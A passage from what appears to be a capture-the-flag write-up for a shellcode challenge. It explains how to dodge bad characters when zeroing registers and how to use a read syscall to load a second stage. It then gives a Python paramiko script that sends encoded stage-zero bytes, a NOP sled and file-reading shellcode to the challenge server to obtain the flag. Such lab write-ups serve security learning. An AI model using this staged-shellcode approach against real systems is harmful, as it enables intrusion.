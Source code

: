The `sbb` instruction is just another way of saying `sub esi, esi`. The `sub` instruction contains a bad char. Operations on `rsi` and `rdi` contained bad chars, but using `esi` and `edi` still had the desired effect of zeroing out the registers. 

Finally, just before the `syscall` would be executed, the registers look like this:

```
rsi: address of _syscall
rdi: zero (stdin)
rax: zero (syscall read)
```

Upon executing the syscall, code execution will go into kernel space, reading from stdin *to* the address of _syscall, overwriting the instructions that come after it. 

Which lead me to another problem: how do we send the shellcode? I couldn't send raw bytes over `ssh`. One option was to encode the shellcode again, using an alphanumeric carver. I decided to put that option on hold. I tried to port-forward the ssh connection so that I could use python and sockets to get the flag; didn't work. Instead, I had to turn to some paramiko black magic. Behold, `fullauto.py`!

```python
import paramiko
import time

ssh = paramiko.SSHClient()
# fix missing hostkey -> https://stackoverflow.com/questions/10670217/paramiko-unknown-server
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())   
ssh.connect('shellcode.ringzer0team.com', username='level7', password='FLAG-<redacted>', port=7771)

# this was the only thing that worked for me. opening a channel via a transport failed miserably.
chan = ssh.invoke_shell()
time.sleep(0.2)

print chan.recv(1024)
time.sleep(0.2)

# send stage0, which will attempt to read from stdin. mind the last \n!
chan.send("\\x04\\x10\\xd9\\xee\\xd8\\x20\\xdb\\x18\\x19\\xf6\\x87\\xf7\\x19\\xf6\\xb2\\xf0\\xc9\\xf2\\xa1\\xcc\n")
time.sleep(0.2)

print chan.recv(256)
time.sleep(0.2)

# we'll need a small NOP sled to get us to the shellcode
payload = "\x90" * 20

# read in the 31 byte shellcode, designed to open/read/write a file
with open('modified-shellcode3') as f:
    data = f.read()
    payload += data
    f.close()
    
chan.send(payload+'\n')
time.sleep(0.2)

chan.send('/flag/level7.flag\x00\n')
print chan.recv(256)
time.sleep(0.2)

# receive flag!
print chan.recv(256)
```
